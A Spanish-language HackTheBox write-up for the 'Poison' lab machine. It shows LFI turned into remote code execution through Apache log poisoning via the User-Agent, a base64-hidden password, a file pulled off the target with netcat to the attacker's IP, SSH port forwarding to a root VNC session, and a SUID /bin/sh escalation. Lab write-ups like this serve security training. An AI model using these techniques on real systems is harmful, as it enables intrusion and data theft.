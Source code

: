 ```yaml
---
title: HackTheBox - Poison
author: cotes
date: 2023-09-19 17:51:00 +0800
categories: [Writeup, HackTheBox, Medium]
tags: [Linux, 'LFI to RCE', 'Log Poisoning', 'Local Port Forwarding', 'VNC Abusing']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Medium/Poison/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Poison Machine Logo
---
```


Máquina Linux de nivel **Medium** de HackThBox.

Técnicas usadas: **LFI to RCE, Log Poisoning, Local Port Forwarding, VNC Abusing**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Medium/Poison/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos abiertos

* **`nmap -p<Puertos> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Medium/Poison/02-versions.png)

c. La página web nos dice que podemos ejecutar scripts **.php**, pero, el campo al no estar sanitizado correctamente, nos permite acceder incluir cualquier fichero

![](/assets/images/HTB/Medium/Poison/03-passwd.png)

* Lograremos una ejecución de comandos al leer el fichero de logs

![](/assets/images/HTB/Medium/Poison/04-log.png)

> La información que podemos manipular es el 'User-Agent', aquí es donde colocaremos nuestro código php para ser interpretado mediante el LFI
{: .prompt-info }

![](/assets/images/HTB/Medium/Poison/05-headers.png)

* En este caso la ruta para acceder a los logs en FreeBSD es `/var/log/httpd-access.log`, y ahora, ya podremos ejecutar comandos visitando la url: `http://<IP Poison>/browse.php?file=%2Fvar%2Flog%2Fhttpd-access.log&cmd=[Comando]`

    ![](/assets/images/HTB/Medium/Poison/06-ls.png)

    * El fichero que nos llama la atención es **pwdbackup.txt**. El contenido de este está encodeado en base64 13 veces.

d. Obtendremos una contraseña 'Charix!2#4%6&8(0', la cual nos servirá para conectarnos en ssh con el usuario charix (Lo vimos al obtener el /etc/passwd)

### Escalada de Privilegios 💹

a. Al investigar en la máquina veremos dos cosas interesantes:

* Tenemos un fichero 'secret.zip' el cual nos transferimos a nuestra máquina

    ```bash
    ❯ nc -lvnp 443 > secret.zip
    -----------------------------------------------------
    charix@Poison:~ % nc -N 10.10.14.18 443 < secret.zip
    ```

* Tenemos 2 puertos abiertos internamente '5901 y 5801'

```bash
charix@Poison:~ % netstat -na -p tcp
Proto Recv-Q Send-Q Local Address          Foreign Address        (state)
<SNIP>
tcp4       0      0 127.0.0.1.5801         *.*                    LISTEN
tcp4       0      0 127.0.0.1.5901         *.*                    LISTEN
```

* Al consultar sobre estos puertos, en [HackTrick](https://book.hacktricks.xyz/network-services-pentesting/pentesting-vnc) nos mencionan que son del servicio VNC

b. Para auditar el servicio **VNC** nos piden una credencial alojada en un fichero, por lo que, descomprimimos el .zip usando la contraseña del usuario charix

```bash
❯ unzip secret.zip
Archive:  secret.zip
[secret.zip] secret password: Charix!2#4%6&8(0
extracting: secret
```

* Además, como el puerto 5901 no es accesible desde fuera, haremos Local Port Forwarding con SSH

    ```bash
    ❯ ssh charix@10.10.10.84 -L 5901:127.0.0.1:5901
    ------------------------------------------------
    ❯ lsof -i:5901
    ssh     54634 root    5u  IPv4 153287      0t0  TCP localhost:5901 (LISTEN)
    ```

c. Ahora, ya podemos acceder a este servicio. Al ser **root** le damos permiso SUID a la /bin/sh

```bash
❯ vncviewer -passwd secret 127.0.0.1::5901
```

![](/assets/images/HTB/Medium/Poison/07-root.png)

* Ahora desde ssh podemos acceder a una `/bin/sh` como root

    ```bash
    charix@Poison:~ % sh -p
    # whoami
    root
    ```